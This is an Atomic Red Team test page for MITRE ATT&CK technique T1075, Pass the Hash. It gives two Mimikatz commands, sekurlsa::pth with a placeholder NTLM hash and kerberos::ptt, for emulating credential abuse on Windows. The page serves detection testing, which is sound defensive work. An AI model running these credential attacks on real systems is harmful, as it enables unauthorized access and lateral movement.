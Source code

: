 ```yaml
---
title: T1075 - Pass the Hash
published: true
---
```

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1075)
<blockquote>Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash. In this technique, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems.<br/> 
<br/>
Windows 7 and higher with KB2871997 require valid domain user credentials or RID 500 administrator hashes. (Citation: NSA Spotting)</blockquote>

## Atomic Tests

- Atomic Test #1 - Mimikatz Pass the Hash

- Atomic Test #2 - Mimikatz Kerberos Ticket Attack

<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|

#### Run it with `command_prompt`!

```
mimikatz # sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```
<br/>
<br/>

## Atomic Test #2 - Mimikatz Kerberos Ticket Attack
Similar to PTH, but attacking Kerberos

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|

#### Run it with `command_prompt`!

```
mimikatz # kerberos::ptt #{user_name}@#{domain}
```

